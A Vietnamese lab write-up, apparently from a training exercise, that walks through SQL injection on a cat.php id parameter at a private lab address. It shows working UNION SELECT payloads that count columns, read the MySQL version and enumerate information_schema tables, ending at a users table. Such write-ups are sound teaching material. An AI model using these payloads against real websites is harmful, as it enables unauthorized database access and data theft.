 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03/2022

# Cách làm:
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:

                            | No. | Table                                          |
                            | --- | ---------------------------------------------- |
                            | 1   | picture: ruby                                  |
                            | 2   | picture: cthulhu                               |
                            | 3   | picture: character_sets                        |
                            | 4   | picture: collations                            |
                            | 5   | picture: collation_character_set_applicability |
                            | 6   | picture: columns                               |
                            | 7   | picture: column_privileges                     |
                            | 8   | picture: engines                               |
                            | 9   | picture: events                                |
                            | 10  | picture: files                                 |
                            | 11  | picture: global_status                         |
                            | 12  | picture: global_variables                      |
                            | 13  | picture: key_column_usage                      |
                            | 14  | picture: partitions                            |
                            | 15  | picture: plugins                               |
                            | 16  | picture: processlist                           |
                            | 17  | picture: profiling                             |
                            | 18  | picture: referential_constraints               |
                            | 19  | picture: routines                              |
                            | 20  | picture: schemata                              |
                            | 21  | picture: schema_privileges                     |
                            | 22  | picture: session_status                        |
                            | 23  | picture: session_variables                     |
                            | 24  | picture: statistics                            |
                            | 25  | picture: tables                                |
                            | 26  | picture: table_constraints                     |
                            | 27  | picture: table_privileges                      |
                            | 28  | picture: triggers                              |
                            | 29  | picture: user_privileges                       |
                            | 30  | picture: views                                 |
                            | 31  | picture: categories                            |
                            | 32  | picture: pictures                              |
                            | 33  | picture: users                                 |